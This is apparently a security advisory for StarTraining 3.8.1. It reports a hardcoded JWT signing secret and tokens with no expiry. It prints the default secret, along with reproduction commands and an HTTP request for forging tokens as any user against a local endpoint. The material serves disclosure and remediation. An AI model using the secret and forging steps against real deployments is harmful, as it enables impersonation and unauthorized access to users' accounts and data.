

# StarTraining — Hardcoded JWT secret allows forged identity tokens (ST-VULN-001)

| Field | Value |
|-------|-------|
| Vendor | zhistaredu |
| Product | StarTraining |
| Version | 3.8.1 |
| Type | Use of Hard-coded Password |
| CWE | CWE-798 / CWE-287 |
| Authentication | None (offline forge with default secret) |
| Severity | Critical |

## Summary

`application.yml` sets `token.secret` to a fixed 26-char string. `UserLoginService.createToken()` signs HS512 JWT without `exp`. Attacker can forge tokens for arbitrary `user_id` / `company_id`.

## Root cause

Hardcoded JWT secret; no expiration claim; token printed in logs during parse.

## Exploit / reproduction

Default secret: `abcdefghijklmnopqrstuvwxyz` (`application.yml` → `token.secret`).

```bash
cd poc_verify
python3 startraining_jwt_forge.py --user-id fa36ec75-160a-47e4-8140-ef1e94c5d329 --company-id 5d70aa10-b5af-4092-b968-d374dd133269
# Put the JWT in Authorization (no Bearer prefix)

curl -s 'http://127.0.0.1:8900/system/user/getUserInfo' \
  -H "Authorization: $(python3 startraining_jwt_forge.py)"
```

Endpoint (requires forged token):

- `http://127.0.0.1:8900/system/user/getUserInfo`


## PoC (Yakit)

```http
# Forge: python poc_verify/startraining_jwt_forge.py
GET /system/user/getUserInfo HTTP/1.1
Host: 127.0.0.1:8900
Authorization: FORGED_JWT_HERE
Connection: close
```

Expected: HTTP 200 with user profile when forged token carries valid user_id + company_id

## Screenshots



## Impact

Full API access as any user when secret is unchanged.

## Remediation

Rotate secret via env; add exp/iat claims; remove debug println of secret/token.

## References

- Local report: `../POC_VERIFICATION_REPORT.md`
- Scripts: `poc_verify/startraining_poc_verify.py`, `startraining_jwt_forge.py`
